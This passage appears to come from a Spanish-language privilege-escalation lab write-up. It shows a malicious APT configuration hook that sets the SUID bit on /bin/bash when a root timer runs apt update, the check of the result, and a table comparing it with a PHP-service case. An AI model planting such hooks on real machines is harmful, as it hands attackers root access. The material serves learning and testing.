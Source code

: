 #### Crear Payload Malicioso

```bash
# Crear archivo: /etc/apt/apt.conf.d/99servicio
APT::Update::Pre-Invoke { "chmod u+s /bin/bash"; };
```

> [!warning] **¿Qué hace este payload?** Asigna el **bit SUID** a `/bin/bash` cuando se ejecuta una actualización de APT.

### ⏰ Temporización del Ataque

```mermaid
gantt
    title Timeline del Ataque
    dateFormat X
    axisFormat %s
    
    section Preparación
    Crear payload malicioso    :done, prep, 0, 5s
    
    section Espera
    Timer automático (30s)     :active, wait, 5s, 35s
    
    section Verificación
    Comprobar SUID en bash     :verify, 35s, 40s
```

#### Verificación del Éxito

```bash
# Esperar 30 segundos y verificar
ls -la /bin/bash
```

> [!success] **Resultado Exitoso**
> 
> ```bash
> -rwsr-xr-x 1 root root 1113504 Jun 15 2022 /bin/bash
> ```
> 
> El bit **s** indica que bash ahora tiene SUID.

---

## 📊 Tabla Comparativa de Casos

|Aspecto|Caso #1 (PHP)|Caso #2 (APT/Systemd)|
|---|---|---|
|**Vector**|Servicio web interno|Timer de sistema|
|**Privilegios**|root directo|SUID en bash|
|**Detección**|netstat|systemctl list-timers|
|**Tiempo**|Inmediato|~30 segundos|
|**Persistencia**|No|Sí (hasta reboot)|

---